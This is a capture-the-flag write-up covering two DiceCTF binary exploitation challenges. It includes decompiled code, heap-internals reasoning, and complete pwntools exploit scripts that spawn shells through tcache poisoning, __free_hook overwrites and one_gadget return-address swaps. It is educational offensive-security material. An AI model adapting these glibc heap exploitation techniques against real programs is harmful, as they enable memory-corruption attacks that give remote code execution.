


Writeups to baby-talk,boogie-woogie in DiceCTF Quals.
<!--more-->

## Overview

In this CTF, I have played with `thehackerscrew`.
We finished 6th place, and qualified for the finals in NYC!
I really liked the pwn challenges, they were super cool and unique, and I really enjoyed spending my time on them.


## baby-talk

### Code Overview

This challenge was the first challenge I encountered during the ctf.

Putting the binary in IDA, reveals its functionallity:
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned __int64 num; // rax
  setbuf(stdout, 0LL);
  while ( 1 )
  {
      print_menu();
      printf("> ");
      num = get_num();
      if ( num == 1 ) do_str();
      if ( num == 2 ) do_tok();
      if ( num == 3 ) do_del();
  }
}
```

We have a little menu, which grants the user the abillity to call the `do_str/do_tok_do_del` functions.

Here is each of the functions:

```c
int do_tok()
{
  ...
  printf("idx? ");
  num = get_num();
  if ( num <= 0xF )
  {
    s = (char *)strs[num];
    if ( s )
    {
      printf("delim? ");
      read(0, buf, 2uLL);
      buf[1] = 0;
      v0 = strtok(s, buf);
      for ( i = v0; i; i = v0 )
      {
        puts(i);
        v0 = strtok(0LL, buf);
      }
    }
  }
}
...
```
So we can give an index, and call strtok on a string located at `num[idx]`.

`num` is `unsigned int`, so not OOB here, since `strs` is of size 0xf.
```c
int do_str()
{
  unsigned int empty; // [rsp+4h] [rbp-Ch]
  unsigned __int64 size; // [rsp+8h] [rbp-8h]

  empty = get_empty();
  if ( empty == -1 ) return puts("too many!");
  printf("size? ");
  size = get_num();
  if ( size > 0x1000 ) return puts("too big!");
  strs[empty] = malloc(size);
  if ( !strs[empty] )
    return puts("no mem!");
  printf("str? ");
  read(0, (void *)strs[empty], size);
  return printf("stored at %d!\n", empty);
}
```

The `do_str` function basiclly allocates a chunk in the heap of our choosing, and lets us control its content.

It allocates with `malloc` and not `calloc`, so there is an uninitialized bug here, which can give us leaks. 

Please note that there is no nullbyte added at the end of the str, and that we can fill up the whole chunk (the read amount is the same size of the chunk), This will be important later.

```c
int do_del()
{
  _QWORD *v0; // rax
  unsigned __int64 num; // [rsp+0h] [rbp-10h]
  void *ptr; // [rsp+8h] [rbp-8h]

  printf("idx? ");
  num = get_num();
  if ( num <= 0xF )
  {
    ptr = (void *)strs[num];
    if ( ptr )
    {
      free(ptr);
      v0 = strs;
      strs[num] = 0LL;
    }
   ...
  }
  ...
}
```

This function basiclly frees a string we choose. nothing to interesting here.

At first glance, we don't see the vulnerability straight away. We can allocate, call strtok, and free.

the `strtok` function breaks a string into a sequence of zero or more nonempty tokens.
If a delimiter byte is found, it is overwritten with a null byte to terminate the current token.

As we saw in the `do_str` function, when creating a new string it doesn't terminate the string, and reads exactly `size` characters.
This means we can fully fill up the heap , and stop just one byte before the size field of the next chunk.

Here is how the heap looks like:



Now, since we know that the delimiter byte will be overwritten with a nullbyte, if we call `strtok` on our chunk, and provide `delim=0x91`, it will overwrite the first byte of the size field with a nullbyte!

### Exploitation

So our bug is a basic nullbyte overflow into the size field of the next chunk.
To exploit such primitive, we can use the house of einherjar technique.

The idea of this technique is to overwrite into the `size` of the next chunk in memory and clear the `PREV_IN_USE` flag to 0.

Also, it overwrites into prev_size (already in the previous chunk's data region) a fake size. 

When the next chunk is freed, it finds the previous chunk to be free and tries to consolidate by going back 'fake size' bytes in memory. 

But in reality, the previous chunk isn't even freed. this can give us an overlapping chunks primitive which gives the same result as a UAF.

Then we can do a tcache poisening attack to write into `__free_hook` and gain RCE.

Now its time to implement all of this.

Lets start by getting leaks. We can get an heap leak by allocating a chunk, freeing it, allocating again and reading the contents.

it will contain the fd pointer of the next chunk, which points to the heap:

```py
do_str(0x70, 'b')
do_str(0x70, 'a')
do_free(0)
do_free(1)
do_str(0x70, 'P')

heap_leak = (u64(do_tok(0, "a").ljust(8, b'\x00'))) & (0xfffffffffffff000)

log.info(f"HEAP LEAK @ {hex(heap_leak)}")
```

We can do the exact same thing to get a libc leak. we just need to use a bigger size, so that our freed chunk will go into the unsorted bin, and not the tcache.

```py
fake_chunk_address = heap_leak + 0x1370
fake_chunk = p64(0x100) + p64(fake_chunk_address + 0x10) * 2 + p64(fake_chunk_address) * 2

do_str(0x1000, 'A')
do_str(0x50, b'G' * 8 + fake_chunk)
do_free(1)
do_str(0x1000, 'A')
do_str(0x60, b'F')
libc.address = u64(do_tok(1, "a").ljust(8, b'\x00')) - 0x3ebc41

log.info(f"LIBC LEAK @ {hex(libc.address)}")
```
You can see that I've created a fake chunk inside one of the allocated strings.

This will be used later, after triggering the vulnerability , We will consolidate backwards to this fake chunk. 

It needs to have a valid size field, and its `fd/bk` needs to satisfy one of libc mitegaions: `p = p->fd->bk = p->bk->fd`

We provided `fd=bk=fake_chunk_address + 0x10`, so when accessing the `fd/bk` of this address, it will result in the 2 QUADWORDS after that, which are `fake_chunk_address`, and the same thing.

Also, when consolidating backwards, it checks if we have a valid chunk after our chunk, so we need to satisfy that aswell.

```py
do_str(0x38, b'A' * 0x38) # idx=4
do_str(0x148, b'B' * 0xf8 + p64(0x21) + 0x28 * b"A" + p64(0x21)) #size field of this chunk is 0x151

do_tok(4, chr(0x51)) # trigger null byte

do_free(4)
do_str(0x38, b'B' * 0x30 + p64(0x100))


#Fill tcache
for i in range(7):
	do_str(0xf8, 'P')

for i in range(7, -1, -1):
	do_free(5+i)


do_free(3) #free the chunk after our fake chunk. tcache is full, so will consolidate backwards into a one big unsorted bin
```
We firstly allocate a chunk to trigger the nullbyte overflow.
Next, we allocate a chunk of size 0x148. This chunk's size field will be overwritten. 

Then, we call `strtok` with `0x51`, which is the first byte of the next chunk size field (0x48 will be 0x51). this will change the size field of that chunk from 0x151, to 0x100.

Then, we fill up the tcache bin. we don't want the corrupted chunk to be inserted into the tcache bin, because it won't consolidate backwards this way.

Lastly, we free the corrupted chunk, which will consolidate backwards with our fake chunk.

Here is how the heap looks like after the free:



We can see that there is a chunk of size 0x201 in the unsorted bin, and just below it there is a tcache bin. 

We can know allocate a chunk of size 0x200, and overwrite the tcache meta data, to start our tcache poisening attack:

```py
do_str(0x1f8, b'/bin/sh\x00' + b'P' * 0x38 + p64(0) + p64(0x71) + p64(libc.sym.__free_hook))

do_str(0x68, 'A' * 8) #allocate from tcache

do_str(0x68, p64(libc.sym.system)) #this will write system to __free_hook

do_free(3) #trigger __free_hook
```

This part will change the fd of our tcache chunk to point to `__free_hook`.

Later, when allocating from the tcache, it will think there is an available chunk at `__free_hook`, and return a pointer to it.

then we can just write whatever we want to there.

Here is the full exploit:

```py
from pwn import *


e = ELF("./chall")
libc = ELF("./libc.so.6")
p = e.process()

index = 0

def do_str(size, string):
	global index
	p.sendlineafter("exit", "1")
	p.sendlineafter("size? ", str(size))
	p.sendafter("str? ", string)
	index += 1
	return index-1

def do_tok(idx, delim):
	p.sendlineafter("exit", "2")
	p.sendlineafter("idx?", str(idx))
	p.sendlineafter("delim?", delim)
	return p.recvuntil("1.")[1:-3]

def do_free(idx):
	p.sendlineafter("exit", "3")
	p.sendlineafter("idx? ", str(idx))


do_str(0x70, 'b')
do_str(0x70, 'a')
do_free(0)
do_free(1)
do_str(0x70, 'P')

heap_leak = (u64(do_tok(0, "a").ljust(8, b'\x00'))) & (0xfffffffffffff000)

log.info(f"HEAP LEAK @ {hex(heap_leak)}")


fake_chunk_address = heap_leak + 0x1370
fake_chunk = p64(0x100) + p64(fake_chunk_address + 0x10) * 2 + p64(fake_chunk_address) * 2

do_str(0x1000, 'A')
do_str(0x50, b'G' * 8 + fake_chunk)
do_free(1)
do_str(0x1000, 'A')
do_str(0x60, b'F')
libc.address = u64(do_tok(1, "a").ljust(8, b'\x00')) - 0x3ebc41

log.info(f"LIBC LEAK @ {hex(libc.address)}")

do_str(0x38, b'A' * 0x38) # idx=4
do_str(0x148, b'B' * 0xf8 + p64(0x21) + 0x28 * b"A" + p64(0x21)) #size field of this chunk is 0x151

do_tok(4, chr(0x51)) # trigger null byte

do_free(4)
do_str(0x38, b'B' * 0x30 + p64(0x100))


#Fill tcache
for i in range(7):
	do_str(0xf8, 'P')

for i in range(7, -1, -1):
	do_free(5+i)


do_free(3) #free the chunk after our fake chunk. tcache is full, so will consolidate backwards into a one big unsorted bin

do_str(0x1f8, b'/bin/sh\x00' + b'P' * 0x38 + p64(0) + p64(0x71) + p64(libc.sym.__free_hook))

do_str(0x68, 'A' * 8) #allocate from tcache

do_str(0x68, p64(libc.sym.system)) #this will write system to __free_hook

do_free(3) #trigger __free_hook

p.interactive()
```

## boogie-woogie

Boogie-woogie was a really simple challenge made by `pepsipu`.

### Code Overview

Here is the code for the challenge:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 num1; // [rsp+8h] [rbp-18h] BYREF
  __int64 num2; // [rsp+10h] [rbp-10h] BYREF
  unsigned __int64 v6; // [rsp+18h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  puts(_art);
  puts(s);
  while ( data[0] )
  {
    num2 = 0LL;
    ...
    printf("\n\x1B[31;49;1;4m%s\x1B[0m\n\n\n", data);
    __isoc99_scanf("%zu %zu", &num1, &num2);
    clap(num1, num2);
  }
  return 0;
}

void __fastcall clap(__int64 num1, __int64 num2)
{
  data[num1] ^= data[num2];
  data[num2] ^= data[num1];
  data[num1] ^= data[num2];
}
```

So the program will take 2 numbers as our input, and will swap two values from the global `data` string. It will also print this string to us.

The vulnerability here is really simple, the clap function doesn't check if we exceed the `data` array, leading to an OOB read/write on the BSS.

### Exploitation

Now, most of the challenge is exploiting this primitive.

Running checksec on the binary, reveals that it has been compiled with full mitegions:

```
pwn/boogie$ checksec --file=boogie-woogie
[*] '/home/itay/Desktop/dicectf/pwn/boogie/boogie-woogie'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'.'
```

Please note that since Full RELRO is enabled, we can't simply overwrite GOT entries with our primitive, because they are in a non-writable page.


We can also put the binary in IDA and look for interesting variables we can write into in the bss, sometimes the compiler puts `stdin` there, but we can see that its not the case here.


There is one variable other than our `data` string, which is `__dso_handle`.


`__dso_handle` is a "guard" that is used to identify dynamic shared objects during global destruction.


Looking at xrefs for that variable, reveals that the external `__cxa_finalize` function gets called with it as a parameter.


Then we can look at `__cxa_finalize` [source code](https://github.com/lattera/glibc/blob/master/stdlib/cxa_finalize.c), and see that there is not a use to this variable, it does some basics checks on it before proceeding: `if ((d == NULL || d == f->func.cxa.dso_handle) && f->flavor == ef_cxa)`. Changing it can only interrupt the execution of `__cxa_finalize`, but it won't really corrupt it and won't even crash.

One thing to notice though is that it points to itself, a pointer to the bss. we can use it to leak the binary base:

```python
    slap_length(0, -24, 8) #offset to __dso_handle
    p.recvline()
    leak = p.recvline()[12:-6]
    exe.address = u64(leak.ljust(8, b'\x00'))  - 0xf008

    log.info(f'EXE @ {hex(exe.address)}')
```

Now, we are kinda stuck.

There is nothing we can override in the bss, and we can't do anything.

But, what if we write to the heap?

The heap base address is usually pretty close to the binary base address.

In order to test this, I wrote this simple c script, to show me the offset from the end of the bss, to the start of the heap:

```c
char* hi = "hello";
int main(){
 	void * a = malloc(0x20) - 0x2a0;
	void* b = hi + 0x1ffc;
	
	printf("diff: %p", a - b);
}
```

Running it multiple times, reveals that usually there is just 12 bits of bruteforce, since the first 12 bits are always 0:

```
$ ./test 
diff: 0x1add000
$ ./test 
diff: 0xfad000
$ ./test 
diff: 0x1299000
$ ./test 
diff: 0xce5000
$ ./test
```

12bits is kind of too much, because a PoW has been added, and pepsipu himself stated that we can decrease it more, but how?

We know, that the heap is of size 0x21000. what if, our guess to the heap will hit anywhere in the heap? if we don't crash, we know that our offset is in the range of `[heap_base, heap_base + 0x21000]`.

since we can also read from that address, we can dynamiclly go backwards, until we reach the start of the heap!

The first chunk of the heap will be the tcache_perthread, and its size field is 0x291.

we can easily scan the heap until we see this value, indicating we found the start of the heap.

To find the most optimal guess, I ran ton of tests with my `./test` program, and found the median of those values, it gave me: 0x121b000.

Here is the first part of my exploit, which finds the offset to the heap:

```py
def find_base_heap_offset():
    global p
    clap(1, heap_offset)
    
    if b'Segmentation fault' in p.recvline():
        print("Wrong guess. trying again...")
        p.close()
        return 0 

    curr = heap_offset + 8

    clap(20, 0) #writing non-null to 0

    for i in range(0x22):
        print(f"Trying {hex(curr)}")
        clap(1, curr)

        print(p.recvline())

        leak = p.recvline()[13:14]
        
        if leak == b'\x91': #if its the start of heap
            return curr - 8
        curr -= 0x1000

def main():
    global p
    heap_offset = 0
    idx = 0
    while heap_offset == 0:
        if REMOTE:
            p = remote("mc.ax" , 31040)
            p.recvuntil("work:\n")
            work = p.recvline()[:-1].decode()
            token = work.split()[-1]
            PoW = os.popen(f'./pow {token}').read()
            print(PoW)
            p.sendline(PoW)

        else:
            p = exe.process()

        heap_offset = find_base_heap_offset()
        idx += 1

    clap(1, heap_offset + 8) #swap back the tcache sizefield
    log.info(f"Found heap start @ {hex(heap_offset)}")
```

Now, we can read/write whatever we want to the heap.

But what can we do with it? 

We don't really have a free primitive, and we can only allocate chunks with the scanf.

Let's not forget the top_chunk!

the top chunk will contain all of the unused heap data, and its size field will indicate how many bytes are left in the heap.

When the heap allocator tries to allocate a chunk bigger than the top chunk, it will free the top chunk, and allocate more space to the heap.

With our primitive, we can decrease the size of the top chunk to be really small, allocate a big chunk with our scanf (we can do something like `clap("1" * 0x700, "1" * 0x900)`), and this will free the topchunk into the unsorted bin, and give us a libc leak!

```py
    clap(heap_offset+ 0xab8+2, 0x200) #write nullbyte to third byte, 0x200 probably contain nullbyte since its in the bss

    clap("1" * 0x700, "1" * 0x900) #free top chunk
    unsorted_bin_offset = 0xac0
    slap_length(0, heap_offset + unsorted_bin_offset, 8)
    p.recvline()
    leak = p.recvline()[12:-6]

    libc.address = u64(leak.ljust(8, b'\x00')) - 0x21ace0
    log.info(f'LIBC @ {hex(libc.address)}')
```

Here I overwrote the third byte of the top chunk with a nullbyte, which made the top chunk size be something like 0x701.

Then I allocated a big chunk with the scanf, and it freed the top chunk, and we can easily read it.

Now, after we have a libc leak, we can easily get a stack leak, to do ROP, via the `environ` symbol inside libc:

```py
    offset_to_environ = libc.sym.environ - exe.sym.data

    slap_length(0, offset_to_environ, 8)
    p.recvline()
    
    leak = p.recvline()[12:-6]

    stack_leak = u64(leak.ljust(8, b'\x00')) 

    ret_address = stack_leak - 0x120

    log.info(f'STACK @ {hex(stack_leak)}')

```

Since we don't really have a fully arbitrary write primitive (we can just swap stuff), we are really limited with our rop chain, and it will be hard to write a lot of bytes.

Searching for one_gadgets, reveals this one:

```
0xebc88 execve("/bin/sh", rsi, rdx)
constraints:
  address rbp-0x78 is writable
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL

```

We can break at main's ret, and see that both RSI and RDI are 0:

```
 RAX  0x0
 RBX  0x0
 RCX  0x555555563020 (data) ◂— 0x63206e6574736900
 RDX  0x0
 RDI  0x0
 RSI  0x0
 R8   0x0
 R9   0x0
 R10  0x7ffff7dbeac0 ◂— 0x100000000
 R11  0x7ffff7dbf3c0 ◂— 0x2000200020002
 R12  0x7fffffffdef8 —▸ 0x7fffffffe26e ◂— '/home/itay/Desktop/dicectf/pwn/boogie/boogie-woogie'
 R13  0x555555555258 (main) ◂— endbr64 
 R14  0x555555562da8 (__do_global_dtors_aux_fini_array_entry) —▸ 0x555555555160 (__do_global_dtors_aux) ◂— endbr64 
 R15  0x7ffff7ffd040 —▸ 0x7ffff7ffe2e0 —▸ 0x555555554000 ◂— 0x10102464c457f
*RBP  0x1
*RSP  0x7fffffffdde8 —▸ 0x7ffff7c29d90 ◂— mov edi, eax
*RIP  0x55555555531f (main+199) ◂— ret 

   0x55555555531e <main+198>    leave  
 ► 0x55555555531f <main+199>    ret    <0x7ffff7c29d90>

```

RBP-0x78 is not writable tho, but it is stored right before the return pointer, and we can easily swap a stack address into it.
Since the original return pointer of main is already a libc address (points to libc_start_main), we only need to write 3 bytes for it to jump to our one_gadget.

Since our primitive is a swap primitive, in order to write something to the return pointer , we need to have it anywhere in a writable page.
To overcome this issue, I have dumped all of libc's bss, with the `dump binary memory libc_dump 0x7ffff7e1a000 0x7ffff7e29000` command in gdb. This memory contains some pointers so it will be some of it will change each run, but its good enough to us.

Here is the final part of the exploit:

```py
    slap_length(0, ret_address - exe.sym.data - 8, 8) #copy stack address to RBP

    char_set_libc = [i for i in open("libc_dump", 'rb').read()] 

    libc.sym.one_gadget = libc.address + 0xebc88


    payload = p64(libc.sym.one_gadget)
    libc.bss_address = libc.address + 0x21a000
    for i in range(3):
        idx = char_set_libc.index(payload[i]) + (libc.bss_address - exe.sym.data)
        clap(ret_address - exe.sym.data, idx)

    clap(0, 0) #Trigger ret
    p.sendline("cat flag.txt")
    p.interactive()

```

we went through each byte we want to write, found an index to it in libc's bss, and swapped with it.
This is somwhat stable, and after a few minutes of it running, we got the flag!!

Here is the full exploit:

```py
#!/usr/bin/env python3

from pwn import *
import os
exe = ELF("./boogie-woogie")
libc = ELF("./libc.so.6")

REMOTE = True

if REMOTE:
    #p = remote("localhost" , 5000)
    p = remote("mc.ax" , 31040)
    p.recvuntil("work:\n")
    work = p.recvline()[:-1].decode()
    PoW = os.popen(work).read()

    p.sendline(PoW)

else:
    p = exe.process()

context.binary = exe

char_set = [i for i in open("bss_dump", 'rb').read()] + [0] * 0x10000
char_set_libc = [i for i in open("libc_dump", 'rb').read()] 

def clap(idx1, idx2, c='\t'):
    p.sendlineafter("exception:\r\n", str(idx1) + c + str(idx2))
    print("SENT CLAP")

def write_to_offset(offset, what):
    for i in range(len(what)):
        try:
            idx = char_set.index(what[i]) 
            char_set[idx] = 0xff
        except:
            idx = char_set_libc.index(what[i]) + (libc.address + 0x21a000 - exe.sym.data)
            print(hex(idx), what[i])                
        print(hex(idx), what[i])
        clap(offset+i, idx)

def slap_length(offset1, offset2, length):
    for i in range(length):
        clap(offset1 + i, offset2 + i)


end_bss = 0xfe0 #offset to the end of the bss, from our data variable
heap_offset = end_bss + 0x121b000


def find_base_heap_offset():
    global p
    clap(1, heap_offset)
    
    if b'Segmentation fault' in p.recvline():
        print("Wrong guess. trying again...")
        p.close()
        return 0 

    curr = heap_offset + 8

    clap(20, 0) #writing non-null to 0

    for i in range(0x22):
        print(f"Trying {hex(curr)}")
        clap(1, curr)

        print(p.recvline())

        leak = p.recvline()[13:14]
        
        if leak == b'\x91': #if its the start of heap
            return curr - 8
        curr -= 0x1000


def main():
    global p
    heap_offset = 0
    idx = 0
    while heap_offset == 0:
        if REMOTE:
            p = remote("mc.ax" , 31040)
            p.recvuntil("work:\n")
            work = p.recvline()[:-1].decode()
            token = work.split()[-1]
            PoW = os.popen(f'./pow {token}').read()
            print(PoW)
            p.sendline(PoW)

        else:
            p = exe.process()

        heap_offset = find_base_heap_offset()
        idx += 1

    clap(1, heap_offset + 8) #swap back the tcache sizefield
    log.info(f"Found heap start @ {hex(heap_offset)}")

    #Leak binary base
    slap_length(0, -24, 8) #offset to __dso_handle
    p.recvline()
    leak = p.recvline()[12:-6]
    exe.address = u64(leak.ljust(8, b'\x00'))  - 0xf008

    log.info(f'EXE @ {hex(exe.address)}')

    clap(heap_offset+ 0xab8+2, 0x200) #write nullbyte to third byte, 0x200 probably contain nullbyte since its in the bss

    clap("1" * 0x700, "1" * 0x900) #free top chunk
    unsorted_bin_offset = 0x16c0
    slap_length(0, heap_offset + unsorted_bin_offset, 8)
    p.recvline()
    leak = p.recvline()[12:-6]

    libc.address = u64(leak.ljust(8, b'\x00')) - 0x21ace0
    log.info(f'LIBC @ {hex(libc.address)}')

    offset_to_environ = libc.sym.environ - exe.sym.data

    slap_length(0, offset_to_environ, 8)
    p.recvline()

    leak = p.recvline()[12:-6]

    stack_leak = u64(leak.ljust(8, b'\x00')) 

    ret_address = stack_leak - 0x120

    log.info(f'STACK @ {hex(stack_leak)}')


    slap_length(0, ret_address - exe.sym.data - 8, 8) #copy stack address to RBP

    char_set_libc = [i for i in open("libc_dump", 'rb').read()] 

    libc.sym.one_gadget = libc.address + 0xebc88


    payload = p64(libc.sym.one_gadget)
    libc.bss_address = libc.address + 0x21a000
    for i in range(3):
        idx = char_set_libc.index(payload[i]) + (libc.bss_address - exe.sym.data)
        clap(ret_address - exe.sym.data, idx)

    
    #input('WIN')
    clap(0, 0)

    p.sendline("cat flag.txt")
    p.interactive()


if __name__ == "__main__":
    main()
```

